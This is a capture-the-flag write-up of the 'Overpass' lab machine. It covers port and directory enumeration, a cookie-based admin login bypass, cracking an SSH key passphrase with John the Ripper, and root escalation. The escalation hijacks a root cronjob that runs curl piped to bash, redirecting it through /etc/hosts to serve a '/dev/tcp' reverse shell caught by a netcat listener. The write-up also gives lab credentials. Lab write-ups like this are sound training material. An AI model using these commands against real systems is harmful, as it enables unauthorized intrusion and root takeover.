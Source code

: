 # Overpass

##### Written: 21/05/2021

##### IP address: 10.10.138.135
<br>
First I ran a **nmap scan** to enumerate the services that are running on the target machine. The command used is:

```
sudo nmap -sC -sV -vv -oN nmap_initial 10.10.138.135
```

 **Results:**

<img style="float: left;" src="screenshots/screenshot1.png">

From the results, we can see that there are two open ports on the machine: **ssh** and **http**.

<br>

Navigating to the HTTP webserver, I can see the following page:

<img style="float: left;" src="screenshots/screenshot2.png">

Before carrying out a happy-path enumeration, I shall use **Gobuster** to see if I can enumerate any hidden directories. The command used is as such:

```bash
gobuster dir -u http://10.10.138.135/ -x php,js,txt -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Note that I made sure to check for common extensions such as **.php** in my directory enumeration.

<br>

With Gobuster up and running, I can then begin to explore the page.

The first thing I did was to check the source code of the home page. Doing so, I noticed an interesting comment that was left behind by one of the web developers:

<img style="float: left;" src="screenshots/screenshot3.png">

This seems to imply that their 'military grade cryptography' is actually one that was used by Romans...Furthermore, it doesn't seem to be very secure by the looks of it.

Could it be the **Caesar Cipher**? I will keep this in mind for now.

<br>

Next, on the 'Downloads' page, there are some files that we can download. Interestingly, they actually provide the **source code** for their password manager. I made sure to download it, as well as the **Build Script** and the **Precompiled Linux Binary**.

<img style="float: left;" src="screenshots/screenshot4.png">

<br>

Before looking at those files, let me check on the results of Gobuster:

<img style="float: left;" src="screenshots/screenshot5.png">

Nice! Gobuster managed to find an **admin login page**:

<img style="float: left;" src="screenshots/screenshot6.png">

I tried some basic SQL injections but they did not work. However, I realised that the login functionality was actually exposed in the **login.js** file that was enumerated! 

<img style="float: left;" src="screenshots/screenshot7.png">

Looking more closely at the **login()** function, it seems that the credentials that are inputted at the login screen are sent in a POST request to an endpoint **'/api/login'**. The response is then received and the data inside is stored in a variable **statusOrCookie**. There is then a check to verify whether the user is authenticated or not. However, looking at the **else** statement which authenticates the user, if we simply create a **SessionToken** cookie and set any random value,  we will be redirected to the **/admin** page! 

<br>

Let's test this out in the developer tools > Storage. In there, I created a cookie called **SessionToken** and assigned a value to it.

<img style="float: left;" src="screenshots/screenshot8.png">

<br>

Upon refreshing the page, I managed to gain access to the administrator panel.

<img style="float: left;" src="screenshots/screenshot9.png">

We have an RSA private key, which will probably be used to log into the ssh server that is also running on the machine. The username that uses this key could also be **James**, as he is mentioned explicitly in the message.

<br>

Let's copy this private key and try to ssh into the machine.

<img style="float: left;" src="screenshots/screenshot10.png">

<br>

Unfortunately we need to find out the **passphrase** for the RSA key. We can try a dictionary attack using **John the Ripper**, which is a password cracking tool. First, we need to convert the RSA key into a hash that can be cracked by JTR. To do so, we use an auxiliary tool called **ssh2john**. This can be done with the following command:

```
python /usr/share/john/ssh2john.py key_rsa > key_rsa.hash 
```

*Note that python3 does not execute ssh2john properly!*

<br>

Now, we can use JTR with the **rockyou.txt** wordlist and try to crack the passphrase:

```
john --wordlist=/usr/share/wordlists/rockyou.txt key_rsa.hash
```

**Results**

<img style="float: left;" src="screenshots/screenshot11.png">

Nice! James's private key passphrase is **james13**. Now we can log into the ssh server.

<br>

<img style="float: left;" src="screenshots/screenshot12.png">

With that, we can obtain **user.txt**!

<br>

---

Next, we have to a way to escalate our privileges. 

First, I checked out the **todo.txt** file located in the home directory of James.

<img style="float: left;" src="screenshots/screenshot13.png">

Nice, looks like James's password is stored in the password manager that he implemented. I used the **find** command to located the overpass binary on the target machine.

```
find / -name overpass 2>/dev/null
```

The binary was found in **/usr/bin/overpass**

<br>

I executed the binary and managed to obtain James's password by retrieving all of the saved passwords:

<img style="float: left;" src="screenshots/screenshot14.png">

James password is **saydrawnlyingpicture**

<br>

Next, I'll try and see what **sudo privileges** James has on this machine.

 <img style="float: left;" src="screenshots/screenshot15.png">



Uh oh, looks like James does not have any sudo privileges at all... I will have to try another path of privilege escalation.

To automate the process, I'll be using **linpeas**, which is a privilege escalation automation script. After running the script, linpeas managed to automate a high potential PE vector.

<img style="float: left;" src="screenshots/screenshot16.png">

The *** * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash** refers to a **cronjob**, which generally has the following format:

**eg**

<img style="float: left;" src="screenshots/screenshot17.png">

Essentially, the ***** symbols dictate the frequency of the cronjob. If the user to execute the command/binary is to be set, then their name will be placed right after the symbols. Then, the command to run during each interval will be placed after that. In the case of the example above, the **rm /home/someuser/tmp/*** command will run **every minute** (as shown by 5 * symbols)

<br>

How about the cronjob that was found by linpeas?

<img style="float: left;" src="screenshots/screenshot18.png">

Hence, this cronjob curls a **buildscript.sh** file from **overpass.thm/downloads/src**  every minute and executes it as it pipes it over to bash. The important thing to note is that this command is **executed as root**! We can exploit this vulnerability by creating our own bashscript.sh which sets up a **reverse shell** that connects back to our host machine. Since our buildscript.sh is piped over to bash and executed as root, the reverse shell that we obtain will be root as well.

<br>

Let's set this up!

First, I needed to know what ip address **overpass.thm** points to. Looking at the **/etc/hosts** file on the target machine, we can actually see that overpass.thm points to localhost:

<img style="float: left;" src="screenshots/screenshot19.png">

I changed the IP address associated with this domain to my own IP address. Now, every time a request is made to overpass.thm, the target machine will check the /etc/hosts file and direct the request to my machine instead.

<br>

Next, I created a bash script called **buildscript.sh** with the following command inside:

```
bash -i >& /dev/tcp/YOUR_IP_HERE/8080 0>&1
```

This is a basic reverse shell command that makes a connection back to port 8080 of my local host.

Next, I placed this script inside a **/downloads/src** directory within my machine. I then started up a simple http server on **port 80** using python.

Finally, I also set up a netcat listener on port 8080 using the command:

```
nc -lvnp 8080
```

<br>

Hence, once a minute passes, the target machine will curl my created **buildscript.sh** and execute it as root, setting up a reverse shell which my netcat listener is currently listening out for.

<img style="float: left;" src="screenshots/screenshot20.png">

After a minute passed, we can see that my buildscript.sh was indeed curl'ed by the target machine.

<img style="float: left;" src="screenshots/screenshot21.png">

And with that, I have gained access to the target machine as **root**!

I can then obtain **root.txt**.

